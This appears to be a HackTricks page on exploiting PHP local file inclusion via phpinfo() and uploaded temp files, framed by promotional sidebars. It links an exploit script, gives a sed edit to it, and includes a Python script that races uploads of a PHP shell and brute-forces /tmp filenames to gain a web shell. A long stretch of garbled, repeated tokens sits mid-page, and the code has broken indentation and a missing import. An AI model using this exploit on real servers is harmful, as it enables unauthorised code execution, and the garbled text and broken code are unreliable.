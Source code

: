 <details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


To exploit this vulnerability you need: **A LFI vulnerability, a page where phpinfo() is displayed, "file\_uploads = on" and the server has to be able to write in the "/tmp" directory.**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

You need to fix the exploit (change **=>** for **=>**). To do so you can do:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
**payload**-nIv'a' 'e' **exploit**-Daq **REQ1**-nIv'a' 'e' **phpinfo**-Daq (php-rev-shell 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e' 'a' 'e
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
